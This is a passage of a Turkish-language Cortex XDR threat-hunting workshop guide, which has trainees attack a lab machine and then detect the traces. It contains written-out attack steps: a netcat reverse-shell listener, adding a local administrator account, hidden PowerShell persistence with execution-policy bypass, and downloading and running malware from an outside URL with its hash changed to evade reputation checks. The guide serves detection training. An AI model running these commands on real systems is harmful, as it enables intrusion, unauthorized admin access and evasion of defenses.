Cortex XDR
Threat Hunting Workshop
Saldırıyı ATTACKER makinesinden siz çalıştırır, bıraktığı izleri VICTIM üzerinde Cortex XDR ile avlarsınız. Backdoor, reverse shell, persistence, malware ve data exfiltration adımlarının her birini önce yapıp sonra tespit edeceksiniz.
Workshop Hakkında
Lab'da iki makineniz var: saldırıyı çalıştırdığınız ATTACKER ve hedef VICTIM. Cortex XDR agent yalnızca VICTIM'da çalışır; saldırının VICTIM'da bıraktığı aktiviteyi konsoldan avlarsınız. Makineler hazır geliyor: C:\x_test açılmış, araçlar yerinde ve ATTACKER masaüstünde kendi VICTIM'ınızın IP'si hazır.
| Yer | Ne yapar |
|---|---|
| ATTACKER | Saldırı araçlarını çalıştırır (Client1.exe, nc, index.html portal) |
| VICTIM | Hedef makine; XDR agent burada çalışır, backdoor burada dinler |
| XDR KONSOL | Query Builder, BIOC, Causality Chain, Timeline ile avlama |
NotATTACKER masaüstündeki VICTIM-BILGISI.txt dosyasında kendi VICTIM makinenizin hostname'i, IP'si ve hazır Client1.exe komutu var. IP aramayla uğraşmayın, oradan kopyalayın.
0. Hazırlık
İki makineye de bağlanın, XDR konsoluna girin ve ortamın hazır olduğunu doğrulayın.
- VICTIMATTACKER Size verilen RDP adresleriyle her iki makineye bağlanın.
- XDR KONSOL Eğitmenin verdiği konsol adresine girin (masaüstündeki XDR Konsol kısayolu).
- VICTIM Agent'ın çalıştığını (yeşil) kontrol edin:
Get-Service | Where-Object { $_.DisplayName -like "*Cortex*" }
- XDR KONSOL Endpoints → All Endpoints'te kendi VICTIM makinenizi hostname'iyle bulun ve üzerinde UTD tag'inin atandığını doğrulayın.


İki makineye de bağlısınız, VICTIM'da agent çalışıyor ve konsolda kendi makinenizi görüyorsunuz.
1. Initial Access
Önce VICTIM'da backdoor'u dinlemeye alır, sonra ATTACKER'dan bağlanırsınız.
- VICTIM Backdoor'u başlatın. Aktif bağlantı açmaz, sadece 8000 ve 8001 portlarında dinlemeye geçer:
cd C:\x_test\server
w_win.exe- VICTIM Portların dinlemede olduğunu doğrulayın (8000, 8001):
netstat -nap tcp
netstat -nap tcp: 8000 ve 8001 portları LISTENING.
- ATTACKER VICTIM'a bağlanın. IP için masaüstündeki VICTIM-BILGISI.txt'i kullanın:
cd C:\x_test\client
Client1.exe <VICTIM-IP> localhostKomuttan sonra CMD kendiliğinden kapanır ve client klasöründe bir index.html oluşur; VICTIM'a bu arayüzden erişeceksiniz.
- ATTACKER
index.html'i açıp sol üstteki TestMe'ye tıklayın. VICTIM'da çıkan pop-up'a OK deyin — erişim başarılı.

index.html portalı açılır; sağ tarafta VICTIM'daki dosyalar, sol tarafta kullanabileceğiniz erişim yöntemleri olur.

2. Persistency
Portaldan dosya yükler, reverse shell alır, local admin açar ve persistence kurarsınız.
- ATTACKER index.html → File-Upload ile önce
downloader.ps1, sonrapersistency.ps1'i yükleyin. Yüklediğiniz dosyalar VICTIM'daC:\x_test\server\udaltında belirir. - ATTACKER Netcat'i dinlemeye alın:
cd C:\x_test\client
nc.exe -l -p 9999
nc.exe -l -p 9999 çalışıyor, 9999 portu dinlemede.- ATTACKER index.html → RevShell'e tıklayın ve ATTACKER makinenizin IP'sini girin. Komut VICTIM'da çalışır ama shell size, ATTACKER'a düşer. Doğru makinede olduğunuzu kontrol edin:
hostname- ATTACKER Reverse shell'de local admin açın:
net user /add newadmin Password123
net localgroup administrators newadmin /add- ATTACKER Persistence kurun (scheduled task + startup):
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\x_test\server\ud\persistency.ps1
Ekrana bir şey basmaz. VICTIM'da Task Scheduler'ı açınca "Download 7-Zip Task" görünür.
3. Threat Hunting: cmd → powershell
Saldırılarda sık rastlanan bir numara, PowerShell'i CMD üzerinden çağırmaktır. Bunu Query Builder'da yakalayıp Causality Chain ve Timeline ile inceleyeceksiniz.
- XDR KONSOL Incident Response → Query Builder → Process. Şu alanları girin (HOST = kendi VICTIM makineniz):

NAME = cmd.exe
CMD ~= powershell (~ tilde: "içerir")
HOST = <VICTIM hostname>

- XDR KONSOL Sonuçlarda sağa kaydırıp SRC_ alanlarına bakın: powershell'i cmd.exe'nin, cmd.exe'yi de imzasız
w_win.exe'nin çağırdığını görürsünüz.

- XDR KONSOL persistency.ps1 satırında sağ tık → Investigate Causality Chain → Open Card in New Tab.

- XDR KONSOL Açılan Causality Chain'de cmd.exe → View Children → powershell.exe.

- XDR KONSOL Description sütununu "task" ve "Startup" ile filtreleyerek scheduled task ve startup kayıtlarını görün.

- XDR KONSOL powershell.exe → sağ tık → Investigate in Timeline.

- XDR KONSOL Timeline'da w_win.exe'nin dinlediği portlar (8000, 8001) ve netcat portu (9999), ilgili noktaların üzerine gelince görünür.

4. Credential Persistence (BIOC)
net.exe kullanımı otomatik yakalanmaz; elle izlenmesi gereken bir aktivitedir. Bunun için bir BIOC kuralı yazacaksınız.
- XDR KONSOL Detection Rules → BIOC → Add BIOC → Process. Şu alanları girip TEST'e basın:
NAME = net.exe
CMD ~= user (~ tilde: "içerir")
HOST = <VICTIM hostname>
DikkatHOST girmezseniz kural tüm ortam için alarm üretir. Mutlaka kendi VICTIM makinenizi yazın.
- XDR KONSOL Sağ üstten Save. Kaydettikten sonra son 30 gündeki ilgili aktiviteler incident olarak Incident Response → Incident View altına düşer.


5. Malware: WildFire & Local Analysis
Ortamın bir malware'i nasıl yakaladığını, hash değişince hangi modülün devreye girdiğini göreceksiniz. Dosyada zararlı bir şey yok, sadece tespit amaçlı.
- ATTACKER index.html → URL (Download) alanına şunu yazıp Submit edin:
http://www.torsque.com/malware1.exe
ud/NeDrtYK.ud).- ATTACKER Sayfayı yenileyin, sağda oluşan dosya adını kopyalayın. Execute (binary) → File path alanına
ud\dosyaadi.udyazıp çalıştırın.

ud\dosyaadi.ud → Submit.- VICTIM XDR agent → EVENT sekmesi. Dosyanın WildFire ile yakalandığını görün — hash reputation'dan, çalıştırmaya bile gerek kalmadan.

- ATTACKER index.html → ChangeHash → aynı dosya adını girin. Aynı dosya yeni hash'le üretilir.

- ATTACKER Yenileyip yeni dosya adını Execute (binary) ile çalıştırın.

ud/87a0…ud).- VICTIM EVENT sekmesinde dosyanın bu kez Local Analysis ile yakalandığını görün — hash değiştiği için reputation tutmadı.

6. Network Source Avı
malware1.exe'nin nereden indiğini bulacaksınız. Bir dosya makineye ilk ulaştığında dosya sisteminde bir create işlemi olur; avı oradan başlatırsınız.
- XDR KONSOL Incident → Query Builder → File, üstten yalnızca Create seçin:
NAME = index.html'deki malware dosya adı
